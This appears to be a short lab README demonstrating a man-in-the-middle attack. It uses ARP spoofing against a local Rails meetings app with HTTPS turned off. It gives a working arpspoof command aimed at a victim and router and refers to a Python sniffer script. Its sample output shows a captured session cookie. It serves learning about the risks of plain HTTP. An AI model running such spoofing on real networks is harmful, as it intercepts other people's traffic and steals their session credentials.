 ## Overview
This project demonstrates a basic Man-In-The-Middle (MITM) attack using ARP spoofing to intercept HTTP traffic in a local network.

## Key Features
- ARP Spoofing with `arpspoof`
- HTTP traffic sniffing using Python
- Target app: Ruby on Rails server for meetings
- HTTPS disabled for demonstration

## Setup
1. Launch the Rails app on a LAN IP (port 3000)
2. Disable HTTPS: `config.force_ssl = false`
3. Run ARP spoofing:
   ```bash
   sudo arpspoof -i eth0 -t [Victim-IP] [Router-IP]
4. Run Python sniffer script (included in sniffer.py)
5. Simulate traffic using:  ```bash curl http://[Victim-IP]:3000

 Sample output : 
 
 GET /meetings HTTP/1.1
User-Agent: curl/7.81.0
Cookie: session_id=abcd1234

## What I Learned:

Risks of using HTTP in local networks

Low-level network attack mechanics

Building sniffer tools with Python
